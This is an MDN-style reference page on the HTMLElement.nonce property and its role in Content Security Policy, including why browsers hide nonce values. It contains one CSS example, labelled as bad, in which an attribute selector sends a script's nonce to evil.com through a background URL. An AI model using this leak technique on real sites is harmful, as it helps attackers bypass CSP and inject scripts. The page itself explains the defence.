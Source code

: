 ```yaml
---
title: HTMLElement.nonce
slug: Web/API/HTMLElement/nonce
page-type: web-api-instance-property
tags:
  - API
  - Content Security Policy
  - Experimental
  - HTML DOM
  - HTMLElement
  - Property
  - Reference
  - nonce
browser-compat: api.HTMLElement.nonce
---
```

{{APIRef("HTML DOM")}}

The **`nonce`** property of the {{DOMxRef("HTMLElement")}} interface returns the cryptographic number used once that is used by [Content Security Policy](/en-US/docs/Web/HTTP/CSP) to determine whether a given fetch will be allowed to proceed.

In later implementations, elements only expose their `nonce` attribute to scripts (and not to side-channels like CSS attribute selectors).

## Examples

### Retrieving a nonce value

In the past, not all browsers supported the `nonce` IDL attribute, so a workaround is to try to use [`getAttribute`](/en-US/docs/Web/API/Element/getAttribute) as a fallback:

```js
let nonce = script['nonce'] || script.getAttribute('nonce');
```

However, recent browsers version hide `nonce` values that are accessed this way (an empty string will be returned). The IDL property (`script['nonce']`) will be the only way to access nonces.

Nonce hiding helps preventing that attackers exfiltrate nonce data via mechanisms that can grab data from content attributes like this:

```css example-bad
script[nonce~=whatever] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Specifications

{{Specifications}}

## Browser compatibility

{{Compat}}

## See also

- [`nonce` global attribute](/en-US/docs/Web/HTML/Global_attributes/nonce)
- [Content Security Policy](/en-US/docs/Web/HTTP/CSP)
- CSP: {{CSP("script-src")}}

